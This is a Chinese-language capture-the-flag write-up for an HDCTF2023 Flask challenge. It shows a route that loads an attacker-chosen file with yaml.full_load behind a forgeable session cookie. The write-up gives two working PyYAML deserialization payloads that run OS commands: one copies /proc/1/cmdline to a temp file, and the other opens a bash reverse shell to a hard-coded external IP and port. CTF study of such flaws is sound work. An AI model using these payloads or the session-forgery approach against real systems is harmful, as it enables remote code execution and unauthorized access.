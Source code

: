 ```python
@app.route('/boogipop') 
def load(): 
    if session.get("passport") == "Welcome To HDCTF2023": 
        LoadedFile = request.args.get("file") 
        if not os.path.exists(LoadedFile): 
            return "file not exists" 
        with open(LoadedFile) as f: 
            yaml.full_load(f) 
        f.close() 
        return "van you see" 
    else: 
        return "No Auth bro" 
# 老演员了,flask Session 伪造       
random.seed(uuid.getnode()) 
app.config['SECRET_KEY'] = str(random.random()*233) 
#验证完身份后它会执行
        with open(LoadedFile) as f: 
            yaml.full_load(f) 
#第一次接触这个,python的yaml反序列化漏洞
#不过这还有个黑名单
BLACK_LIST=["yaml","YAML","YML","yml","yamiyami"] 
#上传文件的时候要注意点

```

反序列化yaml上传文件写法

1.不反弹shell直接读,但是他这不能回显,所以通过重定向到一个文件,再通过我们之前的任意文件读取该文件的内容

(至于这个读flag的bash命令在群里跟群主好好深入了一波,会写的你可以6到飞起)

```yaml
!!python/object/new:str
  args: []
  state: !!python/tuple
    - "__import__('os').system('cat /proc/1/cmdline > /tmp/1.txt')"
    - !!python/object/new:staticmethod
      args: []
      state:
        update: !!python/name:eval
        items: !!python/name:list
```

2.反弹shell,一步到位,`日穿!`

```yaml
!!python/object/new:str
    args: []
    state: !!python/tuple
      - "__import__('os').system('bash -c \"bash -i >& /dev/tcp/139.199.210.235/13281 <&1\"')"
      - !!python/object/new:staticmethod
        args: []
        state:
          update: !!python/name:eval
          items: !!python/name:list
```

